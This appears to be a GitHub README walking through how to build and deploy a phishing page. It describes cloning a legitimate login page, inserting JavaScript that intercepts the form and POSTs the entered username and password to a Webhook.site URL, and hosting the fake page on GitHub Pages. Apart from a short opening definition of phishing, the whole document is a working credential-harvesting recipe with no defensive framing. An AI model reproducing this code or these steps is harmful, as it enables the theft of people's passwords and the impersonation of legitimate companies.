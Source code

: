# Project Overview

Phishing is a scamming technique on the Internet that involves tricking the user into believing they are communicating with a legitimate company (such as a bank, an online shopping site, or a social network) when in reality, they are providing their personal information (such as passwords, credit card numbers, or login credentials) to fraudsters.

Fraudsters often use emails or text messages to send links that lead to websites that closely resemble legitimate sites but are actually imitations created to steal sensitive information.

# Manual

## Copying a website

You can easily copy a website by saving the webpage you are interested in cloning. Right-click and choose "Save page as".    
![save page as](../assets/save_page_as.png)

Make sure you choose "Web page, HTML only" when saving, this way you have everything you need in one html document. You should also rename your page `index.html` so it will work later.    
![web page html only](../assets/web_page.PNG)

When you open this document it should show up exactly like the webpage online.

## Webhook

We will be using [Webhook.site](https://webhook.site) because it's easy to use and free. No need to sign up, just visit the page and you will be given an unique URL which we will use in our script. On the left pane you can also see it is already working and waiting to receive its first request.    
![webhook website](../assets/webhook_site.PNG)

## Altering the webpage / Writing the script

Now we need to add our own script on the webpage so it sends the entered credentials to our Webhook. I used JavaScript in a script tag put at the bottom of the code. It's pretty straight-forward. You get the form element with its ID and add an event listener. You fetch the username and password, and then send them to your webhook URL using the POST method. I added optional error management. And finally you reload the page.

```js
// Intercept the form submission
document.getElementById('login').addEventListener('submit', async function(event) {
    event.preventDefault(); // Prevents the default submit

    const username = document.getElementById('username').value;
    const password = document.getElementById('password').value;

    try {
        const response = await fetch('https://webhook.site/5bc1f02d-51a2-411e-9f38-3fbf7e11fea7', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded',
            },
            body: `username=${encodeURIComponent(username)}&password=${encodeURIComponent(password)}`,
        });

        if (response.ok) {
            // Prints an alert in case of success
            alert('Données envoyées avec succès.');
        } else {
            // Prints an alert in case of an error
            alert('Erreur lors de l\'envoi des données. Vérifiez le serveur cible.');
        }
    } finally {
        // Refreshes the page after sending
        window.location.reload();
    }
});
```

> [!note]
> It's important that you use the correct IDs for the form, username and password values. Check them in your HTML page, they need to match!

## Publishing the webpage

The last thing you need to do is to publish your phishing page. I used Github Pages because it works for static websites and it's free.
You need to create a repository with your webpage in it, then go to settings.   
![github settings](../assets/settings.png)

Then click on the "Pages" tab.    
![pages](../assets/pages.PNG)

Then choose your branch it needs to build from and it will deploy your page for you!